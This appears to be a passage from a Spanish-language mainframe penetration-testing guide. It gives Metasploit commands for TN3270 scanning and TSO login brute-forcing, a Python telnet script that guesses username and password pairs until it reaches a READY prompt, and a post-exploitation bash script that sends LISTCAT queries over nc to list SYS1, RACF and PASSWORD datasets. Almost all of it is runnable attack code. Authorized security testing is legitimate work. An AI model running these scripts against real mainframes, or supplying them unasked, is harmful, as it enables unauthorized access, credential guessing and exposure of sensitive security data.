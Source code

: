 #### Metasploit Modules
```ruby
# auxiliary/scanner/mainframe/tn3270_screen
use auxiliary/scanner/mainframe/tn3270_screen
set RHOSTS <target>
run

# auxiliary/scanner/mainframe/tso_login
use auxiliary/scanner/mainframe/tso_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passes.txt
run
```

#### Scripts Personalizados
```python
#!/usr/bin/env python3
import telnetlib
import time

def mainframe_bruteforce(host, users, passwords):
    for user in users:
        for password in passwords:
            try:
                tn = telnetlib.Telnet(host, 23, timeout=10)
                tn.read_until(b"USERID")
                tn.write(user.encode() + b"\n")
                tn.read_until(b"Password")
                tn.write(password.encode() + b"\n")
                
                response = tn.read_until(b"READY", timeout=5)
                if b"READY" in response:
                    print(f"SUCCESS: {user}:{password}")
                    return True
                    
            except Exception as e:
                print(f"Error with {user}:{password} - {e}")
            finally:
                tn.close()
                time.sleep(1)
    return False
```

### 8.3 Herramientas de Post-Exploitation

#### Dataset Enumeration
```bash
#!/bin/bash
# Script para enumeración de datasets
echo "LISTCAT LEVEL(SYS1)" | nc <target> 23
echo "LISTCAT LEVEL(*.RACF)" | nc <target> 23
echo "LISTCAT LEVEL(*.PASSWORD)" | nc <target> 23
```
